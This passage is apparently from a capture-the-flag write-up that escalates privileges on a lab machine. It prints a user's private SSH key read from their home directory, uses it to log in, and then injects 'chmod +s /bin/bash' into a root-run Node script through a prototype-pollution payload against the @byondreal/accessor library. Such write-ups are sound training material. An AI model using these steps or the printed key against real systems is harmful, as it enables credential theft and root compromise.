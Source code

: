 ### Privilege Escalation

#### ETSCTF

To escalate privileges I ran `linpeas.sh` and the results retrieved this:
```bash
══╣ Possible private SSH keys were found!
/home/ETSCTF/.ssh/id_ed25519

www-data@bunreal:/tmp$ cat /home/ETSCTF/.ssh/id_ed25519
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACDxNdFXecbIfNXImPfoR3wiHLwBeIZvEIJZN+PwzmnNZAAAAIjouaTq6Lmk
6gAAAAtzc2gtZWQyNTUxOQAAACDxNdFXecbIfNXImPfoR3wiHLwBeIZvEIJZN+PwzmnNZA
AAAEArDa+6Ncaw7KeyHC0M5zRdrwc/gYIwhcj1kTXA6aHE8fE10Vd5xsh81ciY9+hHfCIc
vAF4hm8Qglk34/DOac1kAAAAAAECAwQF
-----END OPENSSH PRIVATE KEY-----

```

This is the private key for user ETSCTF so I can use it to access the machine via SSH:
```bash
ssh -i id_rsa ETSCTF@10.0.14.39                              
ETSCTF@bunreal:~$
```

#### ROOT

Then once I'm logged in as user ETSCTF I then proceed to execute the command `sudo -l` and I can execute a script as user root without password:
```bash
ETSCTF@bunreal:~$ sudo -l
Matching Defaults entries for ETSCTF on bunreal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User ETSCTF may run the following commands on bunreal:
    (ALL : ALL) NOPASSWD: /usr/local/bin/breal
``` 
This is the content of it:
```bash
ETSCTF@bunreal:~$ cat /usr/local/bin/breal
#!/usr/bin/node
var args = process.argv.slice(2);
const { exec } = require('child_process');

(async () => {
  const lib = await import('@byondreal/accessor');
  var shell = {}
  var property=JSON.parse(args[0]);
  var param=args[1];
  var val=JSON.parse(args[2])
  try {
    lib.default (property,param, val)
  } catch (e) { }
  if(shell.cmd)
  {
    exec(shell.cmd)
  }
```
As usual, the vulnerability relays on the imported library, in this case `@byondreal/accessor`, there is a vulnerability reported as [byondreal/accesor Prototype Pollution](https://gist.github.com/mestrtee/97bc2fbfbcbde3a54d5536c9adeee34c), after reading the article and with the aid of DeepSeek I came with the following payload:
```bash
ETSCTF@bunreal:~$ sudo /usr/local/bin/breal '{}' '__proto__.cmd' '"chmod +s /bin/bash"'
```